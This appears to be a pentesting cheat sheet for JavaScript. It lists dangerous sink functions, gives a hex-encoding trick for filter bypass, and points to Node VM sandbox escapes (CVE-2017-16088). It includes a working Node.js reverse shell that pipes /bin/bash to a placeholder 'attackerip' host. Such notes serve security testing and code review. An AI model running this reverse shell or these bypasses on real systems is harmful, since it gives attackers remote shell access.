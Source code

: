 # JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```js
/* RCE */
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure however sandbox escape exists (NSP 337, CVE-2017-16088)
setTimeout(string, 2)
setInterval(string)
Function(string)

/* Command Execution */
child_process.exec()

/* LFI */
require()
```

### Reverse Shell

```js
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Escaping NodeJS VM (sandbox)

- Escaping NodeJS VM or `safe-eval` is possible, see - and [escape.js](/vulnerable-code-examples/js/escape.js) for PoC

Other useful resources for understanging the JavaScript sandbox workings:
- https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/
- https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/
